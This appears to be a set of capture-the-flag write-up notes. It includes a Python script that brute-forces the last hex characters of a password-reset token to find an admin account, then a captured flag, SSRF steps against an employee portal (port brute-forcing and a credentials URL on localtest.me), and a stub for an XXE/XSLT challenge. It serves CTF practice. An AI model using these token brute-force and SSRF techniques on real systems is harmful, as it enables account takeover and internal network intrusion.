 ```python
tkn = "53836{}-a97a-11ef-a70f-09f95972f7d2"
hex_chars = '0123456789abcdef'

resp = s.post(f"{url}/login", json={"username":"sas","password":"sas"}).text
print(resp)

def check_guess(guess):
    resp = s.get(f"{url}/api/account/reset?token={tkn.format(guess)}").text
    # if "b81" in guess:
    #     print(guess)
    if "Invalid" not in resp:
        print(tkn.format(guess), resp)
        if "admin" in resp:
            return True
    return False

def brute_force_hex():
    for guess in itertools.product(hex_chars, repeat=3):
        guess = ''.join(guess)
        if check_guess(guess):
            print(f"Match found! The last 3 characters are: {guess}")
            return guess
    print("No match found.")

print(brute_force_hex())
```
`WPCTF{Th3S3_a73_n0t_tH3_S4nDw1ch3s_I_L1k3}`
# Employee self service portal
#ssrf 
## Description
Our infiltrator has identified the new employee self-service portal which is currently under development. This service, designed to allow employees to manage their personal information and request company services, is not yet fully operational, which could expose potential vulnerabilities.
## Overview
Nothing
## Exploitation
- url fuzz -> `/fetch`
- ssrf -> port bruteforce
	- `http://localtest.me:1042`
	- `http://localtest.me:1805`
	- `http://localtest.me:2397`
	- `http://localtest.me:10980`
	- `http://localtest.me:21074`
- ssrf -> credentials bruteforce
	- `http://admin:password@localtest.me:21074`
# Warehouse inventory
#xxe #xlst #rce #race 
## Description
An outdated web interface for the company's Inventory Management System, used daily to update warehouse stock, has been discovered. The system appears to be patched hastily over the years, leaving potential vulnerabilities. Additionally, a partial source code extraction has revealed key components of its inner workings, which might be exploitable.
## Overview
You can download and upload a file.